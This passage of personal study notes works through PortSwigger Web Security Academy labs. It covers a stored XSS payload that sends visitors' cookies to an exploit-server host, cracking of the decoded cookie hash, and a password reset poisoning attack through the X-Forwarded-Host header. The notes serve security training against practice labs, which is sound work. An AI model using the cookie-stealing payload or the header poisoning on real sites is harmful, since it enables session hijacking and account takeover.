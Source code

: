     `<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>`
6. On the exploit server, open the access log. There should be a `GET` request from the victim containing their `stay-logged-in` cookie.
7. Decode the cookie in Burp Decoder. The result will be:
    
    `carlos:26323c16d5f4dabff3bb136f2460a943`
8. Copy the hash and paste it into a search engine. This will reveal that the password is `onceuponatime`.
9. Log in to the victim's account, go to the "My account" page, and delete their account to solve the lab.

Analysis:

i am using hashcat to crack hash

To crack the hash using **Hashcat**, you first need to identify the hash type.
- You can use [Hash-Identifier](https://github.com/blackploit/hash-identifier) or [hashid](https://github.com/psypanda/hashID) to determine the type:
- `hashid 51dc30ddc473d43a6011e9ebba6ca770`

this d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw  is wiener:peter

xss payload: 
<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>
(this extract the cookie of any user who visit xss vulnerable sites(post, blog etc) and send it to attackers server)


victim user found:
carlos:onceuponatime


# 11)Lab: Password reset poisoning via middleware

Lab: https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-poisoning-via-middleware
Lab video: https://www.youtube.com/watch?v=7_RvLi6fdr0&ab_channel=RanaKhalil

This lab is vulnerable to password reset poisoning. The user `carlos` will carelessly click on any links in emails that he receives. To solve the lab, log in to Carlos's account. You can log in to your own account using the following credentials: `wiener:peter`. Any emails sent to this account can be read via the email client on the exploit server.

#### Solution

1. With Burp running, investigate the password reset functionality. Observe that a link containing a unique reset token is sent via email.
2. Send the `POST /forgot-password` request to Burp Repeater. Notice that the `X-Forwarded-Host` header is supported and you can use it to point the dynamically generated reset link to an arbitrary domain.
3. Go to the exploit server and make a note of your exploit server URL.
4. Go back to the request in Burp Repeater and add the `X-Forwarded-Host` header with your exploit server URL:
    
    `X-Forwarded-Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net`
5. Change the `username` parameter to `carlos` and send the request.
6. Go to the exploit server and open the access log. You should see a `GET /forgot-password` request, which contains the victim's token as a query parameter. Make a note of this token.
7. Go back to your email client and copy the valid password reset link (not the one that points to the exploit server). Paste this into the browser and change the value of the `temp-forgot-password-token` parameter to the value that you stole from the victim.
8. Load this URL and set a new password for Carlos's account.
9. Log in to Carlos's account using the new password to solve the lab.
